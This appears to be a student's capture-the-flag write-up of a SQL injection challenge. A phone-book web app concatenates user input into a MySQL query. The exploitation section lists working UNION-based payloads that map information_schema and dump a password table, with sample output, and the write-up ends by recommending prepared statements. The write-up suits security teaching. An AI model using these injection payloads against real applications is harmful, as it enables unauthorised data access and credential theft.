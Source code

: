 Challenge Name
==============

Overview
--------
I was presented with a web page which was rendered by some application running on a server. The application is capable of filtering and presenting the name, surename, nickname and telephone number of people it had saved in some database.

Vulnerability
-------------
The application uses a the users partially sanitised input as a parameter for a condition in an sql select statement which was not built by using a prepared statement, but by plain string concatenation. This way i was able to insert strings which wuold be interpreted not only as a parameter but as part of the query to execute as well.

Exploitation
------------
At first i just tried to insert a few non alphebatical characters and fragments of sql queries to see where it takes me and how the application is behaving. I soon found that the application just throws back sql errors blindly and that I couldn't use ```#``` or ```--``` to comment out the rest of the applications statement because those were removed and a special error was thrown.  
Next I tried to end the statement and append a new one of my own which just lead to syntax errors. Instead of going down that road I remembered the usage of the ```UNION``` operator from todays class and went that way which went pretty smooth.  
After some trial and error I realised that the table and column names werer not in the form I expected so I researched a little about the schema of mysqls table metadata. The rest was just a question of getting those names and finding the right persons with the password needed.  
Here is a summary of the queries I executed successfully:  
```
SELECT name, surname, nick, telephone FROM users WHERE nick = ' + user_input + ' LIMIT 1

' OR '1'='1
# time to inject

' UNION SELECT table_name, table_name, table_name, table_name FROM information_schema.tables WHERE table_schema = 'hackers
hackerztelbookz

' UNION SELECT column_name, column_name, column_name, column_name FROM information_schema.columns WHERE column_name NOT IN ('id', 'name', 'surname', 'nick', 'telephone') AND table_name = 'hackerztelbookz
# 0 rows

' UNION SELECT table_name, table_name, table_name, table_name FROM information_schema.tables WHERE table_name NOT IN ('hackerztelbookz') AND table_schema = 'hackers
# hackrzpasswdz

' UNION SELECT table_name, table_name, table_name, table_name FROM information_schema.tables WHERE table_name NOT IN ('hackerztelbookz', 'hackrzpasswdz') AND table_schema = 'hackers
# 0 rows

' UNION SELECT column_name, column_name, column_name, column_name FROM information_schema.columns WHERE column_name NOT IN ('id', 'hacker_id') AND table_name = 'hackrzpasswdz
# secretpaswd

' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE nick = 'Acid Burn
# Acid Burn	6	nopenopenotthisone	nopenopenotthisone
' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE nick = 'Phantom Phreak
# Phantom Phreak	6	nopenopenotthisone	nopenopenotthisone
' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE nick = 'Lord Nikon
# Lord Nikon	6	nopenopenotthisone	nopenopenotthisone
' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE nick = 'The Plague
# The Plague	6	nopenopenotthisone	nopenopenotthisone
' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE nick = 'Zero Cool
# Zero Cool	6	nopenopenotthisone	nopenopenotthisone
' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE nick = 'Master of Disaster
# Master of Disaster	6	nopenopenotthisone	nopenopenotthisone
' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE nick = 'Cereal Killer
# Cereal Killer 6   nopenopenotthisone  nopenopenotthisone

' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE hacker_id = 0 AND '1'='1
# returned 0 rows
' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE hacker_id = 1 AND '1'='1
# returned 0 rows
' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE hacker_id = 2 AND '1'='1
# returned 0 rows
' UNION SELECT nick, hacker_id, secretpaswd, secretpaswd FROM hackrzpasswdz, hackerztelbookz WHERE hacker_id = 3 AND '1'='1
# Acid Burn 3   bN10R4Ce3jbG7WSzulBJ    bN10R4Ce3jbG7WSzulBJ
```

Solution
--------
Using prepared statements instead of plain string concatenation would be advisable. Another improvement would be to match the user input against a regular expression which defines the allowed structure of the query parameter instead of black listing selectively.
